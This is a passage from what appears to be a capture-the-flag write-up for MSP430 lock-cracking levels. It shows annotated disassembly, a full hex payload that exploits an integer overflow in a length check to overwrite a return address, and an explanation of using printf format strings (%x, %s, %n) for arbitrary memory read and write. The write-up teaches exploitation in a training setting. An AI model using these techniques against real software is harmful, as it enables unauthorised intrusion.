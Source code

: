 The same goes for password, but before doing the check, it adds `r15` to `r11` to take into account the length of the username (otherwise it would be that the password can be 32 bytes long *and* username can be 32 bytes long):

```assembly
45ee:  3f40 0124      mov	#0x2401, r15
45f2:  1f53           inc	r15
45f4:  cf93 0000      tst.b	0x0(r15)
45f8:  fc23           jnz	$-0x6 <login+0x92>
45fa:  3f80 0224      sub	#0x2402, r15
45fe:  0f5b           add	r11, r15 ; r11 stores the length of the username
4600:  7f90 2100      cmp.b	#0x21, r15 ; check if the size is not more than 32 bytes
4604:  0628           jnc	$+0xe <login+0xb2>
4606:  1f42 0024      mov	&0x2400, r15
460a:  b012 c846      call	#0x46c8 <puts>
460e:  3040 4244      br	#0x4442 <__stop_progExec__>
```

There are no checks if the value of `r15` overflows which permits to do integer overflow (on top of that, `cmp.b` is used), so that the sum of username and password lengths is `0x100`. There are no stack canary and the task is to overwrite the return address once again at `0x4016` to point to `unlock_door` at `0x444c`. So the solution will be:
```
Username (0x20 bytes long): 3131313131313131313131313131313131313131313131313131313131313131
Password (0xe0 bytes long): 313131314c443131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131313131
```

## Addis Ababa (rev b.03)

The lock is attached to HSM version 1 and developes `have improved the security of the lock by ensuring passwords can not be too long` and **usernames are printed back to the user for verification**. The format for login has changed to `username:password` instead of two separate requests for input. `unlock_door` function is at `0x44da`. `main` function calls `test_password_valid` to check if the username and password provided are correct which is done by setting byte at `0x3232` to some value other than null byte.

The usernames are printed back to the user by calling `printf` which accepts format strings *after* a call to `test_password_valid` happened and *before* the flag is checked inside `main` function, thus making it possible to use [format string vulnerability](https://web.archive.org/web/20250308001710/https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) to overwrite value at `0x3232`. In this level it can be used for both **arbitrary memory read and write**. For that purposes the following parameters are used:
- `%x` to move the stack pointer towards the format string (internally, if there are any format parameters, then `printf` will make output string out of them at `0x321c` and the stack pointer will change to `0x321a`);
- `%s` to print the string from an address in memory (it will take the hex number from the stack and print whatever is at that address which corresponds to the number taken from the stack);
- `%n` which stores the number of characters written at a particular address in memory following the same logic as `%s`, but instead of printing — writes an integer value.
